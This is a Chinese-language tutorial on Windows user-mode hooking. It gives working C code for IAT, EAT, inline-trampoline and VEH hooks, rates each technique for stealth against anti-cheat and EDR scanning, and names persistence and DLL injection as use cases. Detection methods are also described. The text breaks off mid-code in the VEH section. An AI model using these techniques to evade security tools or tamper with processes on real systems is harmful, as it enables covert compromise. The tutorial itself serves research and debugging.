# 08_Windows 全架构 Hook 技术图谱 - 用户态 Hook（Ring 3）

用户态 Hook 是最基础的拦截手段：所有逻辑运行在 Ring 3（应用层），不依赖内核驱动。反作弊/EDR 只要扫描进程内存、对比磁盘映像、枚举系统回调，就能发现大部分用户态 Hook。隐蔽性普遍较低，但开发成本也最低，仍是安全研究、调试辅助、兼容性补丁的第一选择。

---

## 导读：用户态 Hook 技术全景



### 技术速查对比表

| 编号   | 技术                       | 常用度   | 隐蔽性   | 通用性                 | 现代 Windows 状态 | 典型场景                       |
| ---- | ------------------------ | ----- | ----- | ------------------- | ------------- | -------------------------- |
| 1.1  | IAT Hook                 | ★★★★★ | ★☆☆☆☆ | 仅静态导入               | 完全可用          | 进程内 API 监控、简单拦截            |
| 1.2  | EAT Hook                 | ★★☆☆☆ | ★☆☆☆☆ | 仅 GetProcAddress 路径 | 完全可用          | 影响后续动态解析                   |
| 1.3  | Inline Hook              | ★★★★★ | ★★☆☆☆ | 任意函数                | 完全可用          | 通用 API 拦截（Detours/MinHook） |
| 1.4  | VEH Hook                 | ★★★☆☆ | ★★★☆☆ | 任意地址（≤4 个）          | 完全可用          | 零字节修改的研究型 Hook             |
| 1.5  | PAGE_GUARD               | ★☆☆☆☆ | ★★☆☆☆ | 页粒度                 | 概念验证          | 几乎不用于生产                    |
| 1.6  | TLS Callback             | ★★★☆☆ | ★★☆☆☆ | 执行时机                | 完全可用          | 极早 Hook、反调试、配合 VEH         |
| 1.7  | Hotpatch                 | ★☆☆☆☆ | ★★☆☆☆ | 热补丁函数               | x64 基本不可用     | 仅 x86/旧系统                  |
| 1.8  | Instrumentation Callback | ★★☆☆☆ | ★★★☆☆ | 全部 syscall 返回       | Win10+ x64    | 研究/红队 syscall 监控           |
| 1.9  | Syscall Hook             | ★★★★☆ | ★★☆☆☆ | ntdll syscall stub  | 完全可用          | 对抗直接 syscall               |
| 1.10 | SetWindowsHookEx         | ★★★★☆ | ★★☆☆☆ | 消息/输入               | 完全可用          | 键盘鼠标监控、DLL 注入              |
| 1.11 | AppInit_DLLs             | ★☆☆☆☆ | ★☆☆☆☆ | 全局注入                | Win10+ 基本禁用   | 历史技术，了解即可                  |
| 1.12 | IFEO                     | ★★★☆☆ | ★★☆☆☆ | 启动重定向               | 完全可用          | 调试器、启动时注入                  |
| 1.13 | IME 注入                   | ★☆☆☆☆ | ★★☆☆☆ | GUI 进程              | 仍可用但罕见        | 历史攻击向量                     |
| 1.14 | Shim Engine              | ★★☆☆☆ | ★★★☆☆ | 指定进程                | 完全可用          | 兼容性补丁/持久化                  |
| 1.15 | COM Hijacking            | ★★★★☆ | ★★★☆☆ | COM 加载路径            | 完全可用          | 无管理员持久化                    |
| 1.16 | Winsock LSP              | ★☆☆☆☆ | ★★☆☆☆ | 网络栈                 | 已弃用，仍兼容       | 被 WFP 取代                   |
| 1.17 | DLL 搜索顺序劫持               | ★★★★☆ | ★★☆☆☆ | DLL 加载              | 完全可用          | 代理 DLL、侧加载                 |

### 阅读建议

- **入门必学**：1.1 IAT Hook → 1.3 Inline Hook → 1.9 Syscall Hook（理解现代绕过链）
- **隐蔽性研究**：1.4 VEH Hook → 1.8 Instrumentation Callback
- **持久化/注入**：1.15 COM Hijacking → 1.17 DLL 搜索顺序劫持 → 1.12 IFEO
- **历史/已弱化**：1.7 Hotpatch、1.11 AppInit_DLLs、1.16 LSP — 保留学习价值，生产环境慎用

---

## 1.1 IAT Hook（导入地址表 Hook）

### 技术定位

**常用度最高**的用户态 Hook 之一。适合 Hook 通过 PE 导入表**静态链接**的 API（如 `kernel32!OpenProcess`）。实现简单、稳定，是理解 PE 结构与 Hook 链路的最佳起点。

### 原理

PE 文件加载时，Windows Loader 会解析导入表，将每个导入函数的实际地址写入 **IAT（Import Address Table）**。程序通过 IAT 中的函数指针发起调用。IAT Hook 直接替换该指针，使调用跳转到你的 Hook 函数。



### PE 背景：INT 与 IAT 的区别

| 结构                          | 加载前      | 加载后                | Hook 修改对象 |
| --------------------------- | -------- | ------------------ | --------- |
| **INT**（OriginalFirstThunk） | 保存函数名/序号 | 通常不变               | ❌ 不修改     |
| **IAT**（FirstThunk）         | 与 INT 相同 | 被 Loader 覆写为真实函数地址 | ✅ 修改这里    |

> **通俗理解**：INT 是"菜单"（函数名列表），IAT 是"电话簿"（实际拨号地址）。Hook 只需改电话簿里的号码。

### 完整实现

```c
#include <windows.h>
#include <winternl.h>

typedef HANDLE(WINAPI* fnOpenProcess)(DWORD, BOOL, DWORD);
fnOpenProcess OriginalOpenProcess = NULL;

// Hook 函数
HANDLE WINAPI HookedOpenProcess(DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId) {
// 过滤掉对保护进程的访问
if (dwProcessId == GetProtectedPid()) {
        SetLastError(ERROR_ACCESS_DENIED);
return NULL;
    }
return OriginalOpenProcess(dwDesiredAccess, bInheritHandle, dwProcessId);
}

// IAT Hook 核心逻辑
BOOL IatHook(HMODULE hModule, const char* dllName, const char* funcName, PVOID hookFunc, PVOID* originalFunc) {
// 获取 DOS Header
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)hModule;
if (pDos->e_magic != IMAGE_DOS_SIGNATURE) return FALSE;

// 获取 NT Header
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)hModule + pDos->e_lfanew);
if (pNt->Signature != IMAGE_NT_SIGNATURE) return FALSE;

// 获取导入表 RVA
    DWORD importRva = pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
if (importRva == 0) return FALSE;

    PIMAGE_IMPORT_DESCRIPTOR pImport = (PIMAGE_IMPORT_DESCRIPTOR)((BYTE*)hModule + importRva);

// 遍历每个导入的 DLL
while (pImport->Name) {
char* modName = (char*)((BYTE*)hModule + pImport->Name);
if (_stricmp(modName, dllName) == 0) {
// 找到目标 DLL，遍历其 IAT
            PIMAGE_THUNK_DATA pOrigThunk = (PIMAGE_THUNK_DATA)((BYTE*)hModule + pImport->OriginalFirstThunk);
            PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)((BYTE*)hModule + pImport->FirstThunk);

while (pOrigThunk->u1.AddressOfData) {
// 通过名字匹配
if (!(pOrigThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG)) {
                    PIMAGE_IMPORT_BY_NAME pName = (PIMAGE_IMPORT_BY_NAME)((BYTE*)hModule + pOrigThunk->u1.AddressOfData);
if (strcmp(pName->Name, funcName) == 0) {
// 找到目标函数，保存原始地址
                        *originalFunc = (PVOID)pThunk->u1.Function;

// 修改内存保护
                        DWORD oldProtect;
                        VirtualProtect(&pThunk->u1.Function, sizeof(ULONG_PTR), PAGE_READWRITE, &oldProtect);
                        pThunk->u1.Function = (ULONG_PTR)hookFunc;
                        VirtualProtect(&pThunk->u1.Function, sizeof(ULONG_PTR), oldProtect, &oldProtect);
return TRUE;
                    }
                }
                pOrigThunk++;
                pThunk++;
            }
        }
        pImport++;
    }
return FALSE;
}

// 使用
void InstallIatHook() {
    IatHook(GetModuleHandle(NULL), "kernel32.dll", "OpenProcess", 
            HookedOpenProcess, (PVOID*)&OriginalOpenProcess);
}
```

### 检测难度：★☆☆☆☆

遍历 IAT，对比每个条目是否指向对应 DLL 的地址范围内即可发现。CRC 校验 IAT 区域也能立即暴露。

**常见检测手段**：

- 对比 IAT 指针与 `GetProcAddress` 返回值
- 将 IAT 区域与磁盘 PE 的导入表期望值比对
- 监控 `VirtualProtect` 对 IAT 所在可写区域的修改

### 更易理解的精简示例

下面是最小化版本，帮助理解核心三步：**找 IAT 条目 → 保存原地址 → 替换指针**。

```c
// 精简版：演示 Hook 当前进程 exe 中 user32!MessageBoxA 的思路
typedef int (WINAPI *MessageBoxA_t)(HWND, LPCSTR, LPCSTR, UINT);
MessageBoxA_t g_RealMessageBoxA = NULL;

int WINAPI FakeMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
    return g_RealMessageBoxA(hWnd, "IAT Hook 成功!", lpCaption, uType);
}

// 核心逻辑（遍历部分复用上方 IatHook）：
// 1. IatHook(hExe, "user32.dll", "MessageBoxA", FakeMessageBoxA, &g_RealMessageBoxA)
// 2. g_RealMessageBoxA 保存原始函数，供 Hook 内回调
// 3. 程序下次 call [IAT_MessageBoxA] 就会进入 FakeMessageBoxA
```

### 实战要点

1. **多模块问题**：每个 DLL 有独立 IAT，仅 Hook 主程序不够。
2. **生产环境推荐**：学习用手写 IAT Hook；工程上更常用 [Microsoft Detours](https://github.com/microsoft/Detours) 或 [MinHook](https://github.com/TsudaKageyu/minhook)（Inline Hook，覆盖面更广）。
3. **x86/x64**：`pThunk->u1.Function` 用 `ULONG_PTR` 保证跨架构。

### 局限

* 只能 Hook 通过 IAT 调用的函数，`GetProcAddress` 后**直接 call 寄存器**的路径不经过 IAT
* 每个模块有独立的 IAT，需要逐一修改
* 任何内存扫描工具都能发现 IAT 指针异常

---

## 1.2 EAT Hook（导出地址表 Hook）

### 技术定位

**较少直接使用**。修改 DLL 的导出表，影响后续通过 `GetProcAddress` / `LdrGetProcedureAddress` 解析的路径。对已缓存函数地址的模块无效。实战中更多作为理解 PE 导出机制的学习案例。

### 原理

修改 DLL 的 EAT（Export Address Table），让后续模块通过 `GetProcAddress` 获取到的地址指向 Hook 函数（以 RVA 形式写入导出表）。



### 完整实现

```c
BOOL EatHook(HMODULE hDll, const char* funcName, PVOID hookFunc, PVOID* originalFunc) {
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)hDll;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)hDll + pDos->e_lfanew);

    DWORD exportRva = pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    if (exportRva == 0) return FALSE;

    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hDll + exportRva);
    DWORD* pFunctions = (DWORD*)((BYTE*)hDll + pExport->AddressOfFunctions);
    DWORD* pNames = (DWORD*)((BYTE*)hDll + pExport->AddressOfNames);
    WORD* pOrdinals = (WORD*)((BYTE*)hDll + pExport->AddressOfNameOrdinals);

    for (DWORD i = 0; i < pExport->NumberOfNames; i++) {
        char* name = (char*)((BYTE*)hDll + pNames[i]);
        if (strcmp(name, funcName) == 0) {
            // 保存原始函数地址
            *originalFunc = (PVOID)((BYTE*)hDll + pFunctions[pOrdinals[i]]);

            // 计算 Hook 函数相对于 DLL 基址的 RVA
            DWORD hookRva = (DWORD)((BYTE*)hookFunc - (BYTE*)hDll);

            DWORD oldProtect;
            VirtualProtect(&pFunctions[pOrdinals[i]], sizeof(DWORD), PAGE_READWRITE, &oldProtect);
            pFunctions[pOrdinals[i]] = hookRva;
            VirtualProtect(&pFunctions[pOrdinals[i]], sizeof(DWORD), oldProtect, &oldProtect);
            return TRUE;
        }
    }
    return FALSE;
}

// 注意：EAT Hook 的 hookFunc 地址必须在目标 DLL 的地址空间内
// 否则 RVA 会溢出。解决方案：在目标 DLL 附近分配内存作为跳板
PVOID AllocateNearby(HMODULE hDll, SIZE_T size) {
    MEMORY_BASIC_INFORMATION mbi;
    BYTE* addr = (BYTE*)hDll;

    // 在 DLL 前后 2GB 范围内找可用空间（RVA 是 32 位有符号偏移）
    for (BYTE* p = addr - 0x70000000; p < addr + 0x70000000; p += mbi.RegionSize) {
        if (VirtualQuery(p, &mbi, sizeof(mbi)) == 0) continue;
        if (mbi.State == MEM_FREE && mbi.RegionSize >= size) {
            PVOID alloc = VirtualAlloc(p, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if (alloc) return alloc;
        }
    }
    return NULL;
}
```

### 关键限制说明

| 问题                       | 原因                     | 常见解法                           |
| ------------------------ | ---------------------- | ------------------------------ |
| Hook 函数必须在 DLL 映像 ±2GB 内 | EAT 存的是 32 位 RVA       | `AllocateNearby` 在附近分配跳板       |
| 已缓存地址的模块不受影响             | `GetProcAddress` 只调用一次 | 需在目标模块加载前 Hook，或改用 Inline Hook |
| 转发导出（Forwarder RVA）      | 导出项指向另一个 DLL 的字符串      | 无法直接 EAT Hook，需处理转发链           |

### 检测难度：★☆☆☆☆

和 IAT Hook 一样，对比 EAT 条目与磁盘原始文件即可发现。

### 局限

* 只对后续调用 `GetProcAddress` 的模块有效
* 已经缓存了函数地址的模块不受影响
* 同样是从内存修改，扫描即暴露

---

## 1.3 Inline Hook（内联 Hook / Detour）

### 技术定位

**最常用的通用 Hook 技术**。不依赖 IAT/EAT，直接修改目标函数头部指令，写入跳转跳到 Hook 函数。Microsoft Detours、MinHook、EasyHook 等工业级库均基于此原理。

### 原理

直接修改目标函数的头部字节，写入一条 `jmp` 指令跳转到 Hook 函数。执行完自定义逻辑后，通过 **Trampoline（跳板）** 执行被覆盖的原始指令，再跳回原函数继续执行。



**x64 绝对跳转指令（14 字节）**：

```
FF 25 00 00 00 00    ; jmp qword ptr [rip+0]
[8 字节绝对地址]      ; Detour 函数地址
```

### 完整实现（含指令重定位引擎）

```c
#include <windows.h>
#include <stdint.h>

// x64 指令长度解析器（简化版，覆盖常见指令）
// 完整版应使用 Zydis/distorm 等反汇编库
typedef struct _INSTRUCTION {
uint8_t length;
    BOOL isRipRelative;      // 是否包含 RIP 相对寻址
int32_t ripOffset;       // RIP 偏移在指令中的位置
int32_t ripDisplacement; // 原始 displacement 值
} INSTRUCTION;

// 解析单条指令长度（简化版核心逻辑）
INSTRUCTION ParseInstruction(constuint8_t* code) {
    INSTRUCTION inst = {0};
constuint8_t* p = code;

// 跳过前缀 (REX, LOCK, REP, segment override 等)
while (*p == 0xF0 || *p == 0xF2 || *p == 0xF3 || 
           *p == 0x26 || *p == 0x2E || *p == 0x36 || *p == 0x3E ||
           *p == 0x64 || *p == 0x65 || *p == 0x66 || *p == 0x67 ||
           (*p >= 0x40 && *p <= 0x4F)) { // REX prefix
        p++;
    }

uint8_t opcode = *p++;

// 处理双字节操作码 (0F xx)
if (opcode == 0x0F) {
uint8_t op2 = *p++;
// ModRM
if (op2 >= 0x80 && op2 <= 0x8F) {
// Jcc rel32 (条件跳转)
            inst.length = (int)(p - code) + 4;
            inst.isRipRelative = TRUE;
            inst.ripOffset = (int)(p - code);
            inst.ripDisplacement = *(int32_t*)p;
return inst;
        }
// 其他 0F xx 指令处理...
if ((op2 & 0xC0) != 0xC0) { // 有 ModRM
uint8_t modrm = *p++;
uint8_t mod = (modrm >> 6) & 3;
uint8_t rm = modrm & 7;
if (mod == 0 && rm == 5) { // RIP-relative
                inst.isRipRelative = TRUE;
                inst.ripOffset = (int)(p - code);
                inst.ripDisplacement = *(int32_t*)p;
                p += 4;
            } else if (mod == 0 && rm == 4) { p++; } // SIB
else if (mod == 1) { if (rm == 4) p++; p++; }
else if (mod == 2) { if (rm == 4) p++; p += 4; }
        }
        inst.length = (int)(p - code);
return inst;
    }

// 单字节操作码处理
switch (opcode) {
case 0xE8: // CALL rel32
case 0xE9: // JMP rel32
            inst.length = (int)(p - code) + 4;
            inst.isRipRelative = TRUE;
            inst.ripOffset = (int)(p - code);
            inst.ripDisplacement = *(int32_t*)p;
return inst;
case 0xEB: // JMP rel8
            inst.length = (int)(p - code) + 1;
            inst.isRipRelative = TRUE;
            inst.ripOffset = (int)(p - code);
            inst.ripDisplacement = (int8_t)*p;
return inst;
// ... 其他操作码
    }

// 通用 ModRM 解析
// (这里省略完整的操作码表映射，实际项目应使用 Zydis)
    inst.length = (int)(p - code);
if (inst.length == 0) inst.length = 1; // 兜底
return inst;
}

// Trampoline 构建器：将被覆盖的原始指令复制到 trampoline，并修正 RIP 相对引用
#define HOOK_STUB_SIZE 14  // x64 绝对跳转: FF 25 00 00 00 00 [8字节地址]
#define TRAMPOLINE_MAX 64

typedef struct _HOOK_CONTEXT {
void* pTarget;                           // 原始函数地址
void* pDetour;                           // Hook 函数地址
uint8_t trampoline[TRAMPOLINE_MAX];      // Trampoline 缓冲区
uint8_t originalBytes[HOOK_STUB_SIZE];   // 备份的原始字节
uint32_t stolenLength;                   // 实际偷取的字节数
void* pTrampoline;                       // Trampoline 可执行内存
} HOOK_CONTEXT;

BOOL BuildTrampoline(HOOK_CONTEXT* ctx) {
uint8_t* src = (uint8_t*)ctx->pTarget;
uint8_t* dst = ctx->trampoline;
uint32_t totalCopied = 0;

// 需要至少偷取 HOOK_STUB_SIZE 字节的完整指令
while (totalCopied < HOOK_STUB_SIZE) {
        INSTRUCTION inst = ParseInstruction(src + totalCopied);

if (inst.isRipRelative) {
// RIP 相对指令需要重定位
// 计算原始目标地址
uint8_t* originalRip = src + totalCopied + inst.length; // 执行完该指令后的 RIP
void* absoluteTarget = originalRip + inst.ripDisplacement;

// 计算新的 displacement（从 trampoline 中的新位置到同一个绝对目标）
uint8_t* newRip = dst + inst.length;
int64_t newDisp = (int64_t)((uint8_t*)absoluteTarget - newRip);

if (newDisp > INT32_MAX || newDisp < INT32_MIN) {
// 距离超过 ±2GB，需要用绝对跳转间接寻址
// 这种情况在 trampoline 分配在远处时会发生
// 解决：在 trampoline 末尾放跳转表
memcpy(dst, src + totalCopied, inst.length);
// 将 displacement 改为指向 trampoline 内的跳转表
// （此处简化处理，实际需要跳转表机制）
return FALSE; // 需要更复杂的处理
            }

// 复制指令，修改 displacement
memcpy(dst, src + totalCopied, inst.length);
            *(int32_t*)(dst + inst.ripOffset) = (int32_t)newDisp;
        } else {
// 非 RIP 相对指令，直接复制
memcpy(dst, src + totalCopied, inst.length);
        }

        dst += inst.length;
        totalCopied += inst.length;
    }

    ctx->stolenLength = totalCopied;

// 在 trampoline 末尾追加绝对跳转回原始函数（跳过被偷取的部分）
// FF 25 00 00 00 00 [目标地址 8字节]
    *dst++ = 0xFF;
    *dst++ = 0x25;
    *(uint32_t*)dst = 0; dst += 4;
    *(uint64_t*)dst = (uint64_t)(src + totalCopied); dst += 8;

// 分配可执行内存给 trampoline
size_t trampolineSize = (size_t)(dst - ctx->trampoline);
    ctx->pTrampoline = VirtualAlloc(NULL, trampolineSize, 
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!ctx->pTrampoline) return FALSE;

memcpy(ctx->pTrampoline, ctx->trampoline, trampolineSize);
return TRUE;
}

// 安装 Hook
BOOL InstallInlineHook(HOOK_CONTEXT* ctx) {
// 备份原始字节
memcpy(ctx->originalBytes, ctx->pTarget, HOOK_STUB_SIZE);

// 构建 Trampoline
if (!BuildTrampoline(ctx)) return FALSE;

// 写入跳转到 Detour
    DWORD oldProtect;
VirtualProtect(ctx->pTarget, HOOK_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtect);

uint8_t* p = (uint8_t*)ctx->pTarget;
    p[0] = 0xFF;
    p[1] = 0x25;
    *(uint32_t*)(p + 2) = 0;
    *(uint64_t*)(p + 6) = (uint64_t)ctx->pDetour;

VirtualProtect(ctx->pTarget, HOOK_STUB_SIZE, oldProtect, &oldProtect);
FlushInstructionCache(GetCurrentProcess(), ctx->pTarget, HOOK_STUB_SIZE);
return TRUE;
}

// 卸载 Hook
BOOL RemoveInlineHook(HOOK_CONTEXT* ctx) {
    DWORD oldProtect;
VirtualProtect(ctx->pTarget, HOOK_STUB_SIZE, PAGE_EXECUTE_READWRITE, &oldProtect);
memcpy(ctx->pTarget, ctx->originalBytes, HOOK_STUB_SIZE);
VirtualProtect(ctx->pTarget, HOOK_STUB_SIZE, oldProtect, &oldProtect);
FlushInstructionCache(GetCurrentProcess(), ctx->pTarget, HOOK_STUB_SIZE);

if (ctx->pTrampoline) {
VirtualFree(ctx->pTrampoline, 0, MEM_RELEASE);
        ctx->pTrampoline = NULL;
    }
return TRUE;
}

// 线程安全 Hook 安装（暂停其他线程避免竞态）
BOOL SafeInstallHook(HOOK_CONTEXT* ctx) {
// 挂起所有其他线程
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    THREADENTRY32 te = { .dwSize = sizeof(te) };
    DWORD currentThread = GetCurrentThreadId();
    DWORD currentProcess = GetCurrentProcessId();

    HANDLE suspendedThreads[256];
int suspendCount = 0;

if (Thread32First(hSnap, &te)) {
do {
if (te.th32OwnerProcessID == currentProcess && te.th32ThreadID != currentThread) {
                HANDLE hThread = OpenThread(THREAD_SUSPEND_RESUME, FALSE, te.th32ThreadID);
if (hThread) {
SuspendThread(hThread);
                    suspendedThreads[suspendCount++] = hThread;
                }
            }
        } while (Thread32Next(hSnap, &te) && suspendCount < 256);
    }
CloseHandle(hSnap);

// 安装 Hook
    BOOL result = InstallInlineHook(ctx);

// 恢复所有线程
for (int i = 0; i < suspendCount; i++) {
ResumeThread(suspendedThreads[i]);
CloseHandle(suspendedThreads[i]);
    }
return result;
}
```

### 检测难度：★★☆☆☆

读取函数头几字节，对比磁盘上的原始 DLL 即可发现。大部分反作弊都会做完整性校验。

### 更易理解的 MinHook 用法示例

生产环境不建议手写指令解析器。下面是用 [MinHook](https://github.com/TsudaKageyu/minhook) 实现同等效果的最小示例（库内部处理了 Trampoline 与 RIP 重定位）：

```c
#include "MinHook.h"
#include <windows.h>

typedef int (WINAPI *MessageBoxW_t)(HWND, LPCWSTR, LPCWSTR, UINT);
MessageBoxW_t fpMessageBoxW = NULL;

int WINAPI DetourMessageBoxW(HWND hWnd, LPCWSTR lpText, LPCWSTR lpCaption, UINT uType) {
    // 自定义逻辑
    return fpMessageBoxW(hWnd, L"已被 Inline Hook", lpCaption, uType);
}

BOOL InstallMinHookExample(void) {
    if (MH_Initialize() != MH_OK) return FALSE;

    // MH_CreateHook 参数：目标地址、Detour、保存原始函数的指针
    if (MH_CreateHook(&MessageBoxW, &DetourMessageBoxW, (LPVOID*)&fpMessageBoxW) != MH_OK)
        return FALSE;

    if (MH_EnableHook(&MessageBoxW) != MH_OK) return FALSE;
    return TRUE;
}

void RemoveMinHookExample(void) {
    MH_DisableHook(&MessageBoxW);
    MH_Uninitialize();
}
```

### 工业级方案对比

| 库                     | 维护方 | 特点                  | 适用场景           |
| --------------------- | --- | ------------------- | -------------- |
| **Microsoft Detours** | 微软  | 事务式 Hook、支持 32/64 位 | 官方工具、兼容性补丁     |
| **MinHook**           | 社区  | 轻量、API 简洁           | 游戏/mod/安全工具    |
| **PolyHook 2**        | 社区  | 支持多种 Hook 类型        | 需要多种 Hook 统一框架 |
| **手写 + Zydis**        | 自研  | 完全可控                | 特殊指令/定制需求      |

### 优点

* 通用性最强，可以 Hook 任何函数
* 不管调用方式（IAT/EAT/动态获取）都能拦截
* Microsoft Detours 库提供了工业级实现

### 局限

* 函数头部被直接修改，任何完整性校验都能发现
* 需要处理多线程竞态（Hook 安装瞬间其他线程正在执行目标函数）
* x64 绝对跳转指令长达 14 字节，可能覆盖多条原始指令
* 指令重定位是最复杂的部分，生产环境建议使用 Zydis/distorm/MinHook

---

## 1.4 VEH Hook（向量化异常处理 Hook）

### 技术定位

**研究型 Hook**，不修改目标函数字节。通过硬件断点（DR0-DR3）+ VEH 异常处理器劫持执行流。隐蔽性优于 Inline Hook，但有 4 个断点上限和性能开销。

### 原理

利用 Windows **向量化异常处理（VEH）** 机制：在目标地址设置 CPU 硬件断点，执行到该地址时触发 `EXCEPTION_SINGLE_STEP`，VEH 处理器将 `RIP` 重定向到 Hook 函数。



### 完整实现（含多线程 DR 设置）

```c
#include <windows.h>
#include <tlhelp32.h>

typedef struct _VEH_HOOK_ENTRY {
    PVOID targetAddress;      // 要 Hook 的地址
    PVOID hookFunction;       // Hook 函数
    PVOID originalFunction;   // 原始函数（通过 trampoline 调用）
int drIndex;              // 使用的 DR 寄存器索引 (0-3)
} VEH_HOOK_ENTRY;

#define MAX_VEH_HOOKS 4
VEH_HOOK_ENTRY g_vehHooks[MAX_VEH_HOOKS] = {0};
int g_vehHookCount = 0;
PVOID g_vehHandle = NULL;

// VEH 异常处理器
LONG CALLBACK VehExceptionHandler(PEXCEPTION_POINTERS pExInfo) {
if (pExInfo->ExceptionRecord->ExceptionCode != EXCEPTION_SINGLE_STEP)
return EXCEPTION_CONTINUE_SEARCH;

// 检查是哪个 Hook 触发的
for (int i = 0; i < g_vehHookCount; i++) {
if ((PVOID)pExInfo->ContextRecord->Rip == g_vehHooks[i].targetAddress) {
// 劫持 RIP 到 Hook 函数
            pExInfo->ContextRecord->Rip = (DWORD64)g_vehHooks[i].hookFunction;

// 清除该 DR 的触发标志（DR6）
            pExInfo->ContextRecord->Dr6 = 0;

return EXCEPTION_CONTINUE_EXECUTION;
        }
    }

